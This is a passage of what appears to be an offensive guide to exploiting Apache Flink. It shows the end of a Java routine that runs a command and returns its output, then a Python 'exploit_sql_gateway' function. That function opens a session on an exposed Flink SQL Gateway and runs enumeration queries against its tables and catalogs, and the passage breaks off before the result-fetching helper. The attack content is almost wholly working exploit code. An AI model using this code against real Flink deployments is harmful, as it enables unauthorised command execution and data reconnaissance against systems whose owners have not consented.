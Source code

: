 ```java
            java.util.Scanner scanner = new java.util.Scanner(process.getInputStream());
            StringBuilder output = new StringBuilder();
            while (scanner.hasNextLine()) {
                output.append(scanner.nextLine()).append("\n");
            }
            
            return command + " -> " + output.toString();
        }
    }
}
```

### SQL Gateway Exploitation

Modern Flink deployments often include SQL Gateway for analytics:

```python
def exploit_sql_gateway(target_host, port=8083):
    """Exploit Flink SQL Gateway"""
    base_url = f"http://{target_host}:{port}"
    
    # Session creation
    session_data = {
        "properties": {
            "execution.runtime-mode": "batch"
        }
    }
    
    response = requests.post(f"{base_url}/v1/sessions", json=session_data)
    if response.status_code != 200:
        return None
    
    session_id = response.json()['sessionHandle']
    
    # Information gathering queries
    queries = [
        "SHOW TABLES",
        "SHOW FUNCTIONS", 
        "SELECT * FROM INFORMATION_SCHEMA.TABLES",
        "DESCRIBE CATALOG default_catalog"
    ]
    
    results = {}
    for query in queries:
        query_data = {
            "statement": query,
            "executionConfig": {
                "execution.runtime-mode": "batch"
            }
        }
        
        response = requests.post(
            f"{base_url}/v1/sessions/{session_id}/statements",
            json=query_data
        )
        
        if response.status_code == 200:
            operation_handle = response.json()['operationHandle']
            results[query] = get_query_results(base_url, session_id, operation_handle)
    
    return results

def get_query_results(base_url, session_id, operation_handle):
    """Fetch query results"""
```